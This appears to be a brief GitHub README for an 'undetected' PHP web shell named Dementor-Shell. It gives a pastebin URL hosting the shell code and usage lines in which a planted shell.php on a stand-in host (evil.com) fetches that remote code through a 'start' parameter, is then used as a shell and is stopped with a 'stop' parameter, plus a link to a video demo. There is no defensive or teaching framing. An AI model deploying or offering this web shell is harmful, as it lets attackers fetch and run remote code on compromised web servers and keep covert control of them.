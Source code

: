 # Dementor-Shell-Undetected

Mini Shell URL: http://pastebin.com/raw/5KRBakK8

Usage: https://evil.com/shell.php?start=http://pastebin.com/raw/5KRBakK8

And then use the shell as https://evil.com/shell.php

If you want to stop the shell just put https://evil.com/shell.php?stop

## Video Demo:

[![IMAGE ALT TEXT HERE](https://i.ibb.co/GJXHBX3/download.png)](https://www.youtube.com/watch?v=IuzwL791etA)
